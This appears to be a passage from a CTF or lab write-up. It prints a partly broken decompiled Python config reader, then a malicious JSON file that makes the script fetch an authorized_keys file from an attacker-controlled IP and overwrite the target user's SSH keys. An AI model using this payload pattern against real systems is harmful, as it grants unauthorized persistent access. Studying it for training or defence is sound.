 ```py
Unsupported opcode: BEGIN_FINALLY
        '''Reads the config file
        '''
        config_values = { }
    # WARNING: Decompyle incomplete

    read_config = staticmethod(read_config)
    
    def set_config_path():
        '''Set the config path
        '''
        files = glob('/home/saint/*.json')
        other_files = glob('/tmp/*.json')
        files = files + other_files
        
        try:
            if len(files) > 2:
                files = files[:2]
            file1 = os.path.basename(files[0]).split('.')
            file2 = os.path.basename(files[1]).split('.')
            if file1[-2] == 'config' and file2[-2] == 'config':
                a = dt.strptime(file1[0], '%d-%m-%Y')
                b = dt.strptime(file2[0], '%d-%m-%Y')
            if b < a:
                filename = files[0]
            else:
                filename = files[1]
        finally:
            pass
        except Exception:
            sys.exit(1)
        

        return filename

    set_config_path = staticmethod(set_config_path)
```

Create malicious json file and move the file to `/tmp` folder in the attacking machine.

## Exploitation

### Malicious json file creation

```json
{
"URL" : "http://192.168.45.190:8000/authorized_keys",
"Output" : "/home/saint/.ssh/authorized_keys"
}
```

